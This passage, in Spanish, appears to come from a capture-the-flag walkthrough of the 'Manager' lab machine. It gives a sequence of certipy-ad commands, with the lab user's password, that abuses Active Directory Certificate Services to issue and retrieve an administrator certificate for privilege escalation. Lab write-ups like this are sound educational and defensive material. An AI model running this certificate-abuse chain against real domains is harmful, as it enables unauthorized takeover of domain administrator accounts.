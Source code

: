 Finalmente, ejecutamos el comando para **recuperar** el certificado emitido con el ID **22**, lo que nos da el certificado solicitado y nos permite usarlo para autenticar como **administrator@manager.htb** o realizar otras acciones para escalar privilegios dentro del dominio.

{% code overflow="wrap" %}
```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer Raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb

certipy-ad ca -ca 'manager-DC01-CA' -issue-request 22 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target dc01.manager.htb -retrieve 22
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/1452_vmware_6kqN4DMpwk.png" alt=""><figcaption></figcaption></figure>

Conprobaremos que se nos ha generado un archivo (administrator.pfx)

<figure><img src="../../../.gitbook/assets/1453_vmware_tQUg9EjVlW.png" alt=""><figcaption></figcaption></figure>
